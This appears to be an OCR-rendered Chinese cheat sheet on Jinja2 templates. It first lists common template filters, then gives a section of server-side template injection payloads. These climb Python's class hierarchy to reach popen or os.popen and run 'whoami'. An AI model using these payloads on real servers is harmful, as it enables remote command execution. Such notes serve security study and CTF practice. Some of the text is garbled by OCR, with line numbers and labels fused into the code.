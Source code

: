 ## 常用过滤器

```Python
int()：将值转换为int类型；
float()：将值转换为float类型；
lower()：将字符串转换为小写；
upper()：将字符串转换为大写；
title()：把值中的每个单词的首字母都转成大写；
capitalize()：把变量值的首字母转成大写，其余字母转小写；
trim()：截取字符串前面和后面的空白字符；
wordcount()：计算一个长字符串中单词的个数；
reverse()：字符串反转；
replace(value,old,new)： 替换将old替换为new的字符串；
truncate(value,length=255,killwords=False)：截取length长度的字符串；
striptags()：删除字符串中所有的HTML标签，如果出现多个空格，将替换成一个空格；
escape()或e：转义字符，会将<、>等符号转义成HTML中的符号。显例：content|escape或content|e。
safe()： 禁用HTML转义，如果开启了全局转义，那么safe过滤器会将变量关掉转义。示例： {{'<em>hello</em>'|safe}}；
list()：将变量列成列表；
string()：将变量转换成字符串；
join()：将一个序列中的参数值拼接成字符串。通常有python内置的dict()配合使用
abs()：返回一个数值的绝对值；
first()：返回一个序列的第一个元素；
last()：返回一个序列的最后一个元素；
format(value,arags,*kwargs)：格式化字符串。比如：{{ "%s" - "%s"|format('Hello?',"Foo!") }}将输出：Helloo? - Foo!
length()：返回一个序列或者字典的长度；
sum()：返回列表内数值的和；
sort()：返回排序后的列表；
attr(): 获取对象的属性
default(value,default_value,boolean=false)：如果当前变量没有值，则会使用参数中的值来代替。示例：name|default('xiaotuo')----如果name不存在，则会使用xiaotuo来替代。boolean=False默认是在只有这个变量为undefined的时候才会使用default中的值，如果想使用python的形式判断是否为false，则可以传递boolean=true。也可以使用or来替换。

length()返回字符串的长度，别名是count
```

## 利用链

python2、python3 通用 payload（因为每个环境使用的python库不同 所以类的排序有差异）

- 直接使用 popen（python2不行）

```py
os._wrap_close 类里有popen"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.popen('whoami').read()1.2.3.4.
```

- 使用 os 下的 popen

```py
含有 os 的基类都可以，如 linecache"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('whoami').read()1.2.3.
```
